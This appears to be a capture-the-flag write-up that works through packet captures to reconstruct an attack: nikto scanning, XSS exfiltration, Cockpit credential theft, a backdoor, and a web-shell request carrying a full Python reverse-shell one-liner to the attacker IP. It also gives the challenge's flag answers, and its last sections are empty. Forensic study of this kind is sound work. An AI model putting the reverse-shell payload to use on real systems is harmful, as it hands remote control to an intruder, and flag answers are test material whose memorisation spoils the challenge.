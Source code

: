 # Attack Investigation - Networks

## Challenge

This was a multi-part challenge which unlocked further stages as you completed them. For the sake of brevity I am recording them on a singular document under a singular title instead of creating unique ones for each challenge.

## Solve:

### Server & Attacker IP

Filtering for `http` traffic we can see evidence of web directory enumeration from `192.168.1.9` to `192.168.1.10`:

nw1

`KCTF{192.168.1.10_192.168.1.9} `

### The Real Admin 

Filtering for `http` traffic which doesn't include the attackers IP, we can see admin activity from `192.168.1.3`:

nw2

`KCTF{192.168.1.3}`


### The Intruder's Identity

Filtering for POST requests from the attacker's IP, can find credentials used to register an account:

nw3

`KCTF{theexploiter_exploiter@test}`

### Compromising the Admin

Same filters, can view multiple attempts to login to `admin` and find compromised credentials after final attempt:

nw4

`KCTF{theexploiter_exploiter@test}`

### Initial Reconnaisance

To explore the tools that may have been used, my teammate (`Ch1maera`) used `tshark` to enumerate `User-Agents`, and found:

`93e4r0-CVE-2014-6271`

Doing a search for "93e4r0-CVE-2014-6271" led to the GitHub repo for `nikto`, a web enumeration tool.

The `User-Agent` can be found with this command:

```
./tshark.exe -r capture1.pcapng -Y "http.user_agent" -T fields -e http.user_agent | Sort-Object | Get-Unique
```

nw5

`KCTF{nikto}`

### Stealing the Sweet

Found evidence of and XSS attack under Statistics->HTTP->Requests:

nw6

Filtering for `http` traffic that is not destined for port 80 (credit to my teammate `sealldev`) we can see HTTP packets sent from the server to the attackers IP:

nw7

`KCTF{8881_xss}`

### The Overseer

Moving on to the second packet capture, the first batch of packets show requests to `/cockpit`:

nw8

`KCTF{cockpit}`

### The Gatekeeper

To find out the port the server listens on, just check the GET request to `/cockpit/login` above.

`KCTF{9090}`

### The Server's Identity 

Viewing the WebSocket traffic we can see the `host` in the attackers communication with the server is specified as `localhost`:

nw9

KCTF`{localhost.localdomain}`

### Tareq's Secret 

To find the password, filter for `http` requests to `/cockpit/login` and view last (and successful) login attempt:

nw10

`KCTF{SecurePass}`

### The Escalation Trick

Moving on to the third and final packet capture, we can filter for `http` requests and sort by length to view commands requested as URIs:

nw11

```
 GET /uploads/678e2443a6725.php?cmd=export%20RHOST=%22192.168.1.9%22;export%20RPORT=5074;python3%20-c%20%27import%20sys,socket,os,pty;s=socket.socket();s.connect((os.getenv(%22RHOST%22),int(os.getenv(%22RPORT%22))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn(%22sh%22)%27 HTTP/1.1
```

The command appears to be establishing a reverse shell. Following the tcp stream (credit to `sealldev`) shows attacker executing commands through this shell and reveals the tool used to escalate privileges:

nw12

`KCTF{awk}`

### The Hidden Door

In the same TCP stream, we can view the commands executed by the attacker to establish a backdoor:

nw13

The attacker changes to the `root` directory, creates a hidden directory `.sys` and installs the backdoor via `wget` on port 2081.

`KCTF{/root/.sys/sys_2081}`

### Port Fiesta

In the same TCP stream, we can see the server is started on 10 different ports:

nw14

`KCTF{10}`

### The Backdoor's Whisper

Manually checking the ports from the previous question with `tcp.port == <port>`, only port 12345 has any activity:

`KCTF{12345}`

### The Unused Tool 

### Malicious Uploads 

### Shell History